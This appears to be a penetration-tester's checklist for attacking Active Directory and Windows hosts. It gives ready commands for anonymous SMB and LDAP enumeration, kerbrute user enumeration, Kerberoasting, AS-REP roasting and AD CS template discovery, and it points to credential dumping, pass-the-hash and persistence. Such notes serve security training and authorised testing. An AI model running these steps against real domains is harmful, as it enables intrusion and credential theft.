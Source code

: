 # Step-by-Step AD/Windows Machine

## Initial Access

### Without Credential

* Enum4Linux&#x20;

```bash
enum4linux-ng IP
```

* SMB anonymous login

```bash
smbclient -L //10.10.178.64 -N
smbclient -N //10.10.178.64/Data
```

* LDAP anonymous informations

{% code overflow="wrap" %}
```
# query for Name and Description (sometimes we can find passowrds)
ldapsearch -x -H ldap://<TARGET_IP> -b "dc=example,dc=com" "(objectClass=user)" cn description
```
{% endcode %}

{% content-ref url="active-directory-pt/ad-enumeration/ldap.md" %}
[ldap.md](active-directory-pt/ad-enumeration/ldap.md)
{% endcontent-ref %}

* Web Page&#x20;

#### Anonymous allowing

* Enum AD with Kerbrute

{% content-ref url="active-directory-pt/ad-initial-attack-vectors/kerbrute.md" %}
[kerbrute.md](active-directory-pt/ad-initial-attack-vectors/kerbrute.md)
{% endcontent-ref %}

* Try get Kerberostable users

{% code overflow="wrap" %}
```bash
impacket-GetUserSPNs -request -dc-ip $DC_IP $DOMAIN.local/ -outputfile hashes.kerberoast
```
{% endcode %}

{% content-ref url="active-directory-pt/ad-post-compromise-attacks/kerberoasting.md" %}
[kerberoasting.md](active-directory-pt/ad-post-compromise-attacks/kerberoasting.md)
{% endcontent-ref %}

* Try to get ASREP Roastable users

```bash
impacket-GetNPUUsers.py $DOMAIN/ -dc-ip $DC_IP 
```

{% content-ref url="active-directory-pt/ad-post-compromise-attacks/as-rep-roasting.md" %}
[as-rep-roasting.md](active-directory-pt/ad-post-compromise-attacks/as-rep-roasting.md)
{% endcontent-ref %}



If all of these techniques doens't work we have to try to catch some NTLM hash credentials or some like this.

{% content-ref url="active-directory-pt/ad-initial-attack-vectors/" %}
[ad-initial-attack-vectors](active-directory-pt/ad-initial-attack-vectors/)
{% endcontent-ref %}



### With Credentials

Enumeration:

* Enum4Linux&#x20;

```bash
enum4linux-ng -u USER -p PASS IP
```

* SMB Shares
* Bloodhound ( or Find **Kerberostable**, **AS-Roastable** accounts)
  * Check the information from "Node Info" of initial user.
* AD CS vuln template

```bash
certipy find -u 'billy@foobar.com' -p <password> -dc-ip <DC_IP> -vulnerable -enabled

cat *_Certipy.txt | grep ESC
```

* Impacket-secretsdump
  * Pass-the-Hash / Pass-the-Password
* WinRM connection
  * evil-winrm
  * Create persistence shell&#x20;

{% content-ref url="executive-pt/post-exploitation/payload-development.md" %}
[payload-development.md](executive-pt/post-exploitation/payload-development.md)
{% endcontent-ref %}

* FTP connection
* SSH connection



## AD Enum

#### Kerberos User enumeration

* Verify users in the domain

```bash
./kerbrute_linux_amd64 userenum users.txt --domain DOMAIN.local --dc <IP>
```

{% content-ref url="active-directory-pt/ad-initial-attack-vectors/kerbrute.md" %}
[kerbrute.md](active-directory-pt/ad-initial-attack-vectors/kerbrute.md)
{% endcontent-ref %}





## PrivEsc:

* Local Enumeration ( Get all possible informations)

{% content-ref url="executive-pt/post-exploitation/windows-post-exploitation/windows-local-enumeration.md" %}
[windows-local-enumeration.md](executive-pt/post-exploitation/windows-post-exploitation/windows-local-enumeration.md)
{% endcontent-ref %}

* WinPeas
* Privs (whoami /priv)
  * Access Token Impersonation
* Check All AD user (deleted, disable, active)
* Mimikatz&#x20;
* Certipy (more if there is a CA\_SVC user)



## Dump

* impacket-secretsdump
* Mimikatz

When we have a hash we can:

* Do Pass-The-Hash
* Use `Hash-Identify` to get the type and crack it



## Crack Hash

* Hashcat & John


